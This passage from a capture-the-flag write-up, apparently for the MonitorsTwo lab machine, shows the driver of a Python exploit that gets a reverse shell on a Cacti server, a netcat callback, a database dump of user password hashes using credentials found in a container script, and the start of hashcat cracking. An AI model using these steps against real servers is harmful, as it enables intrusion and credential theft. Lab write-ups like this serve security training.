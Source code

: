 ```python
def main() -> None:
    # Open a nc listener (rs_host+rs_port) and run the script against a CACTI server with its LOCAL IP URL
    args = parse_args()
    queue = make_payload_queue(args.url, args.remote_ip, args.remote_port)
    processes = []
    for n in range(args.process_threads):
        p = Process(target=run_exploit, args=(queue,))
        processes.append(p)
        p.start()
    for p in processes:
        p.join()

if __name__ == "__main__":
    main()


```

Catching the callback with a netcat listener gets me a shell on the box!

## Docker Enumeration

After looking around the box, I landed on the `/entrypoint.sh` file:

```bash
!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
 mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
 mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
 mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
```

This points us directly to the `user_auth` table inside of the database, and shows us how to connect to it:

```bash
mysql -h db -u root --password=root cacti -e "select * from user_auth;"
1       admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC  0 Jamie Thompson  admin@monitorstwo.htb
3       guest   43e9a4ab75570f5b        0       Guest Account           
4       marcus  $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C  0 Marcus Brune    marcus@monitorstwo.htb
```

I then went to crack these hashes using hashcat with a GPU:

```powershell
PS D:\> .\hashcat.exe --identify .\hash.txt
The following 4 hash-modes match the structure of your input hash:
      # | Name                                                       | Category
  ======+============================================================+======================================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce
```
